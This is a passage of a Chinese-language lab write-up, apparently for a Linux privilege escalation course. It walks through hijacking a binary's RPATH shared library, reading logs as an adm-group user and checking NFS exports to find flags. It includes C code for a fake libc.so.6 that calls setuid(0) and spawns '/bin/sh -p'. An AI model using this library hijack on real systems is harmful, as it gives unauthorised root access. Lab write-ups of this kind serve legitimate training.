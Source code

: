    针对这个题目答案，输入`ldd --version`即可查看到GLIBC的版本号

   **以下内容仅提供简单思路，有兴趣可以查看[EXploit Exercises - Nebula15](https://blog.csdn.net/luozhaotian/article/details/79819247)**
   `ldd payroll`查看程序共享对象文件

   ![image-20220827140307231](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827140307231.png)`readelf -d payroll | grep PATH`查看共享库文件夹

   ![image-20220827140339969](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827140339969.png)将其利用的共享对象文件创建在共享库文件夹，运行程序查看报错（这个实验环境已经编译好)
   ![image-20220827140402208](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827140402208.png)
   ![image-20220827141444927](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827141444927.png)

   可以整合一个`libc.so.6`文件

   ```c
   #include<stdio.h>
   #include<stdlib.h>
   asm(".symver puts, puts@GLIBC_2.2.5");
   
   void __cxa_finalize() {
       setuid(0);
       system("/bin/sh -p");
   } 
   
   void __libc_start_main(){
       __cxa_finalize();
   }
   ```

   编译文件
   ![image-20220827141815585](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827141815585.png)

### Privileged Groups

1. Use the privileged group rights of the secaudit user to locate a flag.
   `id`可以看到用户secaudit在adm组中，所以直接切换到`/var/log`目录

   ![image-20220827224224052](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827224224052.png)
   利用命令`find . | xargs grep -ri flag > /tmp/eval.txt`查看其日志中具有flag的文件
   在apache的access.log文件中有请求flag的url连接
   ![image-20220827235612125](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827235612125.png)

### Miscellaneous Techniques

1. Review the NFS server's export list and find a directory holding a flag.
   可以直接使用账户查看`/etc/exports`
   ![image-20220827235910846](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827235910846.png)
   flag文件在`/var/nfs/general/`目录下

###　Linux Local Privilege Escalation - Skills Assessment
